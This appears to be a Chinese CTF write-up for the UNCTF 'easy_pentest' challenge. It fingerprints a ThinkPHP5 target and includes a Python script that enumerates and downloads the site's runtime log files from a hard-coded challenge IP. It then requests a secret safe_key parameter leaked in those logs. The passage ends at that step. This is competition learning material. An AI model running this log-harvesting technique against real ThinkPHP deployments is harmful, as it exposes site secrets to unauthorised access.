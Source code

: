 ## easy_pentest（非预期解）


#### step1：

初步扫描一波大致可以确认是thinkphp5
![img01](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img01.png)
访问composer文件就可以判断这就是个tp5

> 可以去git上找个项目来大致看看目录结构，比如说
> https://github.com/Astonep/tp-admin


#### step2：

翻日志，就按官方给的hint跟脚本来

```python
#coding=utf-8
import requests, time

def get5log():
    end = 17
    url = "http://183.129.189.60:10041/runtime/log/201909/"  # tp5日志的目录以及命名规则就是这样，不同版本可能略有不同
    file = url[-6: -1]
    for i in range(0, end):
        time.sleep(1)
        u = url + f"{i}.log"
        if (i < 10):
            u = url + f"0{i}.log"
        print(u)
        res = requests.get(u)
        res.close()
        if res.status_code == 200:
            print(f"saved log {i}.txt")
            filename = f"{file}_{i}.txt"
            with open(filename, 'w', encoding="utf-8") as f:
                f.write(res.text)
        else:
            print(f"{i}.log doesnt exists")

if __name__ == '__main__':
    get5log()
```

历遍完毕，可以发现一个日志文件
从里面可以看出来get了某个新的参数过去
待会读源码也能看到这个参数

![img02](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img02.png)
于是直接请求
` /public/index.php?safe_key=easy_pentesnt_is_s0fun `
